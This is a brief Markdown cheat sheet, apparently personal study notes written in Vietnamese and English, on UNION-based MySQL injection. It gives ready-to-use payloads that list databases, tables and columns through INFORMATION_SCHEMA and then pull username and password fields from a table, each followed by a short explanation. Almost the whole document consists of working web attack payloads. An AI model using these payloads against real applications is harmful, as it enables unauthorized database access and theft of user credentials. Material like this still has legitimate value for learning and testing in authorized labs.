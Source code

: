 # MY SQL INJECTION

## Version
`@@version`

## Database 
```sql
cn' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
cn' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='devss'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
cn' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name
